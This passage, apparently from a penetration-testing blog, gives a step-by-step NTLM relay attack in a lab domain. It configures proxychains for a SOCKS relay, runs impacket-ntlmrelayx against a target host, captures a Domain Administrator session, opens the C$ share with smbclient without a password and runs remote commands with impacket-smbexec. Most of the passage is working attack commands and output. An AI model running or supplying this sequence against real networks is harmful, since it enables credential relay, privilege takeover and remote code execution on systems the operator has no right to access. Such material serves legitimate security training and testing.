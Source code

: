 ## Let's relay the sessions

No time for cracking complicated passwords. Let's relay the hashes right away as they are sent. We will create a SOCKS relay for this purpose that will hold all the sessions and serve them to SOCKS clients.

Lets configure `proxychains` - comment out the tor, and add the following line:
`/etc/proxychains.conf`
```
[ProxyList]
#socks4 127.0.0.1 9050
socks4 127.0.0.1 1080
```

Next, let's startup the relay and attack `10.10.24.102`.
```
┌──(root㉿kali)-[/home/kali/lateralmovement]
└─# cat hosts-relay.txt 
10.10.24.102

┌──(root㉿kali)-[/home/kali/lateralmovement]
└─# impacket-ntlmrelayx -tf ./hosts-relay.txt -socks -smb2support
```

Now the user opens the share. We can immediately see, that we have a new relay available, with Domain Administrator session.

```
ntlmrelayx > socks
```
![](http://news.baycode.eu/wp-content/uploads/2023/11/5-1.png)

### The relay session is now wrapping the authentication for commands we execute.

Let's test the relay and connect to the share using `smbclient`.
```
┌──(root㉿kali)-[/home/kali/lateralmovement]
└─#  proxychains smbclient //10.10.24.102/c$ -U democorp/Administrator
You will be prompted for password. Just press enter and the relay will authenticate you
smb: \> dir
```
![](http://news.baycode.eu/wp-content/uploads/2023/11/6-2.png)

### We've opened the `C:\` drive on the `10.10.24.102`.

Now let's try to execute a command.
```
┌──(root㉿kali)-[/home/kali/lateralmovement]
└─# proxychains impacket-smbexec democorp/Administrator@10.10.24.102 -no-pass
```
![](http://news.baycode.eu/wp-content/uploads/2023/11/7-2.png)
